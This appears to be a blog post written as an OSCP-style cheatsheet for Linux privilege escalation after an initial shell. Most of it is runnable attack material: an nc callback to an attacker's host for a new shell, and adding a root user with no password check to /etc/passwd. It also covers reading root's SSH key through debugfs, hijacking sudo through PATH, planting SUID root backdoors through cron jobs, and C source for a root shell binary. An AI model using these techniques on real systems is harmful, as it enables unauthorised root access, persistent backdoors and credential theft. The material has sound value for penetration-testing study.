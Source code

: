 ```yaml
---
title: Linux Privilege Escalation
date: 2020-06-29 16:33:08
tags: [oscp, linux, cheatsheet, privilege escalation]
aliases:
    - /linux-privesc
    - /postexp-linux
---
```


# Linux Privilege Escalation Cheatsheet

So you got a shell, what *now*?
This cheatsheet will help you with local enumeration as well as escalate your privilege further

Usage of different enumeration scripts are encouraged, my favourite is [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
Another linux enumeration script I personally use is [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
Abuse existing functionality of programs using [GTFOBins](https://gtfobins.github.io/)

*Note: This is a live document. I'll be adding more content as I learn more*

## Unstable shell
Send yourself another shell from within the unstable shell
``` bash
which nc
nc $ip $port
```

## Make it functional
Necessary for privilege escalation purposes
``` bash
which python[3]
python[3] -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
# In Kali
stty -a # Notice number of rows and columns
stty raw -echo && fg
# On target system
reset
stty rows xx
stty columns yy
export TERM=xterm-256color
```
## General info
``` bash
# username, groups
id
hostname

# Part of too many groups? Find out all the files you've access to
for i in $(groups); do echo "=======$i======"; find / -group $i 2>/dev/null | grep -v "proc" >> allfiles; done

# Interesting internally listening ports?
netstat -anpt

# Look what the user was up to
less .bash_history
less mysql_history

# Check user accounts
cat /etc/passwd | grep "sh$\|python"

sudo -l
```
## Automated enumeration
``` bash
# Automated local enumeration
# Look for any highlighted stuff
# Cron jobs
# Non-standard scripts or programs
# Hardcoded credentials. Check password re-use against existing accounts
./linpeas.sh -q

./linenum.sh
```

## Abusing sudo
Can sudo but absolute path is specified? Use `ltrace` to view libraries being loaded by these programs and check if absolute path is specified or not
``` bash
# Easy win?
sudo -l # Check programs on GTFOBins

# Can sudo, abosulte path not specified?
echo "/bin/sh" > <program_name>
chmod 777 <program_name>
# Export PATH=.:$PATH
sudo <program_name>
```

## Weak file permissions
``` bash
# Writable /etc/passwd?
Remove 'x' beside a username --> no password
# Create a new user
openssl passwd "lol" # Prints out a hash
# Make a new entry at the end of /etc/passwd
notahacker:$passwd_hash:0:0:/root:/bin/bash # Become r00t yourself

# /dev/sda1 readable?
debugfs /dev/sda1 # Get root's SSH private key 
```

## Abusing CRON jobs
``` bash
# Writable CRON program?
# Insert language specific reverse shell

# Writable library?
# Back up library
# Insert language specific reverse shell at the end of the library

# Make root give you a bash SUID program
# Make getroot.sh file with following contents and wait for CRON job to run the program
#!/bin/dash
cp /bin/dash /tmp/backdoor
chown root:root /tmp/backdoor
chmod u+s /tmp/backdoor
# Execute /tmp/backdoor to get a root shell


cp /bin/bash /tmp/backdoor
chmod 6755 /tmp/backdoor
# Execute /tmp/backdoor -p to get a root shell
```
Use a suid program and use as per context
getsuid.c
``` c
// BOTH WORKS
// gcc -o suid getsuid.c
// AS INTENDED USER - 
	// chown root:root suid
	// chmod 6755 suid

// immediately spawns shell upon execution 
int main() {
	setuid(0);
	system("/bin/bash -p");
}

// or better, execvp doesn't drop euid
// able to handle more things without any modifications
// run commands as root
#include <stdio.h>
#include <unistd.h>

int main(int argc, const char * argv[]){
	if (argc > 1) printf("%s",execvp(argv[1],&argv[1]));
	return 0;
}
```
## Abusing wildcards
Check out this fantastic [document](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt) of a talk
* Abusing `chmod` 
* Abusing `chown`
* Abusing `tar`
* Abusing `rsync`

## Abusing NFS < 4

Refer to my [personal notes](https://www.notion.so/NFS-4-689ff63036654c3f8e3bda2deef9f6e5) for exploiting NFS < 4